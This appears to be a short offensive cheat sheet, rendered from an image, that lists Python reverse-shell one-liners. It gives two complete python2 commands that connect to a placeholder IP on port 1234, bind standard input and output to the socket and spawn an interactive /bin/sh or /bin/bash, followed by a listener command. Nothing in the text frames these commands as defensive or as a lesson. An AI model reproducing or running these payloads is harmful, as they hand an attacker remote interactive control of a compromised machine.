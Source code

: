 # Python

## Reverse TCP

python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xx.xx.xx.xx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python2 -c 'import pty,socket,os;s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("xxx.xxx.xx.xx", 1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash");s.close()' 

## Listener

python2 tcp_pty_shell_handler.py -b 127.0.0.1:1234

